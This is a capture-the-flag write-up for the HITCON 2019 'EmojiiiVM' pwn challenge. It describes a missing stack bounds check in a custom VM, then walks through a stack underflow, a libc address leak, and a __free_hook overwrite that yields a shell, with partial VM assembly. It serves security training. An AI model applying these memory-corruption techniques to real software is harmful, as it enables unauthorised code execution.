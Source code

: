 # HITCON CTF Quals - 2019

## Pwn / 236 - EmojiiiVM

> Have you ever wrote an "emoji exploit" ?
> Well now it's your chance! Pwn the service and get the flag ;)
> 
> nc 3.115.176.164 30262
> 
> Author: bruce30262
> 39 Teams solved.

### Solution
by [@HexRabbit](https://blog.hexrabbit.io/)

> You may need check out rev & misc part of this challenge first

After reversing the binary, we found that almost every instruction doesn't do the bounding check on stack pointer, for instance:

![](https://i.imgur.com/9YapwkM.png)

By using this, we can trigger a stack underflow by executing `OP_AND` before anything got pushed onto the stack. 

Let's see what is placed before the stack buffer:

![](https://i.imgur.com/myFF7M0.png)

Global pointer(GPTR) list contains pointers that is used for dynamic allocation, the instruction `ALLOC`/`FREE` are used to Allocate/Free `GPTR[op]`, and `RDSTRI`/`PRSTRI` are used to Write/Print `GPTR[op]`

On allocation (`ALLOC`), VM will first allocate a tiny structure to store metadata, after that, allocate the real storage and store pointer into `buf`.
```cpp
struct heap_meta {
     long len;
     char *buf;
}
```


Exploit
---
First we make use of stack underflow to modify pointer on `GPTR` to point to user-controlled `heap_meta` structure to leak libc address, but although we can modify `GPTR` by stack underflow and leak heap pointer with `PRINT` instruction, there's no way to directly write to `GPTR`

So we have to do it on stack.

Below is part (I stripped the allocation part) of assembly used in exploitation to substitute 640 from `GPTR[9]`, make it point to `GPTR[3]->buf`
```
ADD;
ADD;

# -1 * 8 * 8 * 10 = -640
PUSH 1;
PUSH 0;
SUB;
PUSH 8;
PUSH 8;
PUSH 10;
MUL;
MUL;
MUL;
ADD; # GPTR[9] == GPTR[3]->buf
```

After libc address leak, with `heap_meta` structure controlled, we can also easily modify `__free_hook` with `RDSTRI` instruction and get shell.

```
POP; # make stack pointer point to &GPTR[8]
PRINT; # leak GPTR[8]

PUSH 3;
RDSTRI; # write p64(8), p64(GPTR[8] - 0x6b0)
PUSH 9;
PRSTRI; # leak base+0x3ebca0
PUSH 3;
RDSTRI; # write p64(8), p64(hook)
PUSH 9;
RDSTRI; # magic
PUSH 2;
FREE;
```
